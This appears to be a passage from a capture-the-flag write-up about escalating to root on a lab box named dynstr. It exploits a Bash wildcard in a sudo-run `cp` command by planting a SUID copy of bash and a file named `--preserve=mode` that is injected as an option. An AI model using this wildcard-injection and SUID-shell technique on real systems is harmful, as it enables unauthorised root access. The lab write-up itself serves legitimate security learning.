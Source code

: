 ### Wildcard Exploit

#### Strategy

The vulnerable line is this:

```

cp .version * /etc/bind/named.bindmgr/

```

It allows me to write any file I want into that directory owned as root. That on it’s own is not bad. But because of how Bash handles wildcards, if I create a file that looks like an option for `cp`, it will expand into place and be applied to that `cp`.

#### –preserve

Looking at the `cp` [man page](https://linux.die.net/man/1/cp), the `--preserve` option is interesting:

> **–preserve**[=*ATTR\_LIST*]
>
> preserve the specified attributes (default: mode,ownership,timestamps), if possible additional attributes: context, links, xattr, all

I don’t want to preserver ownership or timestamp, but preserving mode would allow me to create a SUID binary and then have it owned by root.

I’ll work out of `/dev/shm`, and first, create a version file to get past that check:

```

bindmgr@dynstr:/dev/shm$ echo 100 > .version

bindmgr@dynstr:/dev/shm$ sudo bindmgr.sh 
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
cp: cannot stat '*': No such file or directory
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found

```

It errors out because there are no files. I’ll create two. First, I’ll copy `bash` in and set it SUID. Then, I’ll `touch -- --preserve=mode`.

```

bindmgr@dynstr:/dev/shm$ cp /bin/bash .
bindmgr@dynstr:/dev/shm$ chmod 4777 bash 
bindmgr@dynstr:/dev/shm$ touch -- --preserve=mode

```
